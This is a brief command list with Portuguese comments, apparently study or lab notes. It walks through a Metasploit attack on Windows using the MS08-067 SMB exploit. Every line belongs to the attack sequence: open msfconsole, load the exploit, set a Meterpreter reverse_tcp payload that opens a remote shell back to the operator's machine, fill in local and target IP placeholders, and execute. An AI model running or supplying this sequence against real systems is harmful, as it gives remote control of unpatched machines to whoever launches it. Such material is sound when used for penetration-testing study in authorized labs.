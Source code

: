 # Abrindo o Metasploit Framework Console

msfconsole

# Escolhendo o Exploit MS08_067

use exploit/windows/smb/ms08_067_netapi

# Setando o Meterpreter como Payload

set payload windows/meterpreter/reverse_tcp

# Mostrando as opções

options

# Setando o localhost

set LHOST <ip local>

# Setando o Alvo

set RHOST <ip target>

# Executando o exploit

exploit
